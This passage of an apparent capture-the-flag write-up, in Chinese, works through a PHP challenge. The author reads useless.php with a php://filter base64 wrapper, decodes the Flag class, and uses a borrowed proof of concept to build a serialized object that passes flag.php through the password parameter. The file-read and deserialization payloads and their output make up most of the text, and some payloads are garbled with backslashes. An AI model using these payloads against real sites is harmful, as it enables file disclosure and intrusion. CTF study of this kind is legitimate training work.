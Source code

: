 又因为之前提醒了又useless.php，所以现在用伪协议构造尝试访问一下
```
&file=php:\filter\read=convert.base64-encode\resource=useless.php
```
出现一段编码
```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```
用base64解码得到一段php代码
```php
<?php  

class Flag{  \flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !\COME ON PLZ");
        }  
    }  
}  
?>  

```
有点看不懂，看wp说接下来是构造poc，但我不是很懂怎么构造，和前辈借一下
```
<?php  
 
class Flag{  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !\COME ON PLZ");
        }  
    }  
}  
$password = new Flag();
echo serialize($password);
?> 
```
输出
```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```
构造
```
&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```
